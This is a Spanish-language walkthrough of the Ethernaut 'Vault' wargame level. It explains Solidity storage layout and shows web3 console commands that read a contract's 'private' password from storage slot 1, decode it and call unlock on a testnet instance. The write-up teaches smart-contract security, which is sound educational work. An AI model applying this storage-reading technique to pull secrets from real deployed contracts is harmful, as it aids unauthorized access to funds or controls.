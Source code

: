 # Vault

<!-- > Estas son las instrucciones en las que se basan este vídeo:

<p align="center">
  <a href="https://www.youtube.com/watch?v=X1VWUQW675w">
    <img src="https://img.youtube.com/vi/X1VWUQW675w/hqdefault.jpg" alt="Link al video de Youtube">
  </a>
</p> -->

En este nivel lo único que tenemos que hacer es desbloquear la caja fuerte.

Vamos a [crear](https://sepolia.etherscan.io/tx/0x0088cc8efb0eb2c5c8525b5e8fc87753486b9224c23d02c0fc11252461eec4bf) una nueva instancia del contrato confirmando la transacción en nuestra billetera de `MetaMask`. Mientras se despliega, vamos a analizar el contrato.

## Análisis

En este contrato, podemos ver que primero tenemos una variable booleana que indica si está bloqueado o no y otra variable **PRIVADA** que es la contraseña.

En el `constructor`, se establece la contraseña y el estado cambia a bloqueada.

Después, solo tenemos una función que nos permitirá desbloquear la bóveda si introducimos la contraseña correcta.

Simplemente, tenemos que averiguar la contraseña para completar este nivel.

## Solución

Si investigamos un poco acerca de la [visibilidad](https://docs.soliditylang.org/en/latest/cheatsheet.html#function-visibility-specifiers) de las variables y funciones en Solidity, podemos ver todos los tipos y en específico private indica que solo es visible en el contrato actual, no dice nada acerca de si se puede leer o no los datos.

Pero sabemos que todos los datos almacenados en un `Smart Contract` pueden ser leídos ya que están almacenados en la `Blockchain`.

Además, hay varias [formas](https://solidity-by-example.org/hacks/accessing-private-data/) de acceder a los datos privados de un contrato inteligente usando librerías externas como [web3](https://docs.web3js.org/).

Por último, tenemos que entender como funciona el [almacenamiento](https://docs.soliditylang.org/en/latest/internals/layout_in_storage.html#layout-of-state-variables-in-storage) de las variables en `Solidity`:

- Hay 2 elevado a la 256 _slots_ de memoria
- Cada slot tiene 32 _bytes_ de almacenamiento
- Los datos se guardan en el orden de declaración del contrato empezando desde el indice cero

Es decir, en el slot 0 está la variable `locked` y en el slot 1 la variable `password`.

## Ataque

Antes de comenzar, vamos a comprobar que la caja fuerte está bloqueada:

```jsx
> await contract.locked()
true
```

Ahora que hemos entendido todo, vamos a utilizar la siguiente función de la librería [web3](https://web3js.org/) para ver el contenido de la variable que se encuentra en el `slot` 1 de la instancia del contrato:

```jsx
> await web3.eth.getStorageAt(instance, 1)
'0x412076657279207374726f6e67207365637265742070617373776f7264203a29'
```

Nos devolverá la contraseña codificada en hexadecimal, si queremos verla en texto plano podemos utilizar esta otra función de `web3`:

```jsx
> await web3.utils.hexToAscii("0x412076657279207374726f6e67207365637265742070617373776f7264203a29");
'A very strong secret password :)'
```

Por último, ahora que sabemos la contraseña para desbloquear la bóveda, vamos a llamar a la función [unlock](https://sepolia.etherscan.io/tx/0x4067e61519d38934bec6b47468784b9552196a9d22c64b24e9c372616a08a116) pasando como parámetro la contraseña en hexadecimal.

```jsx
> await contract.unlock("0x412076657279207374726f6e67207365637265742070617373776f7264203a29")
```

Aceptamos la transacción desde la billetera de `MetaMask` y esperamos a que se confirme en la `blockchain`.

Cuándo se haya confirmado, podemos comprobar si la caja fuerte sigue bloqueada:

```jsx
> await contract.locked()
false
```

Como ya no está bloqueada, vamos a [entregar](https://sepolia.etherscan.io/tx/0x4fb800c8aeb8c4d25ca349a241d480881ec9b08fe52d8eceeef6391de91e99c7) este nivel!

_Ethernaut_, nos recuerda que marcando una variable como `private` s**olo previene que otros contratos accedan a ella, todas las variables sean lo que sean son accesibles públicamente**.
